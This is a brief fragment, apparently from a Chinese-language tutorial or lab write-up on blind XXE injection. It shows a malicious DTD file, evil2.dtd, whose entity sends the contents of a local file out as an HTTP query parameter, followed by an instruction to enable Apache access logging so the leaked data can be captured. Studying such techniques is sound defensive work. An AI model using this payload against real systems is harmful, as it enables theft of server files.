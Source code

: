 ##### evil2.dtd

```xml

<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/?data=%file;'>"
>
%payload;
```

##### 







![](image39/QQ截图20220329211052.png)

开启apache日志功能-access.log
